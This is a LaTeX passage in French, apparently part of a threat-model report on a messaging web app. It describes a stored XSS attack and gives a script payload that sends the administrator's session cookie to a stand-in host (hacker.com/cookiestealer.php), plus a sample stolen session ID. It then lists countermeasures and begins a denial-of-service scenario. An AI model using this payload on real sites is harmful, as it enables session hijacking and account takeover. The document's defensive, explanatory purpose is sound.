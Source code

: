\documentclass[a4paper,10pt]{article}
\begin{document}
        À présent, on peut récupérer le cookie de session de l'administrateur à l'aide de l'objet \verb|location.cookie| et on va le rediriger sur une URL de l'attaquant à l'aide de l'objet DOM \verb|document.location|. On ajoute l'injection HTML dans le message qu'on envoie à l'administrateur:
                \begin{lstlisting}[language=html]
<script>document.location="http://hacker.com/cookiestealer.php?cookie="document.cookie;</script>
\end{lstlisting} 
Dès que l'administrateur ouvre le message, il va directement faire une requête sur le site de l'attaquant avec sa session:
        \begin{lstlisting}[language=html]
http://hacker.com/cookiestealer.php?cookie=PHPSESSID=riqbmmcaclh148j631uinq8375
\end{lstlisting} 
L'attaquant peut récupérer l'id de session et le remplacer avec sa session actuelle. Ainsi, il pourra s'authentifier sur le compte administrateur.

        \paragraph{Contre-mesures} 
        Afin d'éviter des attaques XSS, on peut ajouter des sanitizers. On peut également échapper les caractères du contenu du message avant de l'afficher sur l'application web. Finalement, on peut régénérer les id de session régulièrement afin d'éviter tout vol de session (on peut ajouter un timeout de validité).
    \subsection*{Scénario de menace 6: Denial Of Service (DOS)}
        \paragraph{Impact sur l'entreprise} Moyen à haut (indisponibilité du service de messagerie)
        \paragraph{Source de menace} Hackers, Concurrent, Employé (avec des compétences avancées)
        \paragraph{Motivation} Cela pourrait être pour une vengeance personnelle ou simplement afin d'empêcher l'utilisation du système en le rendant indisponible.
\end{document}
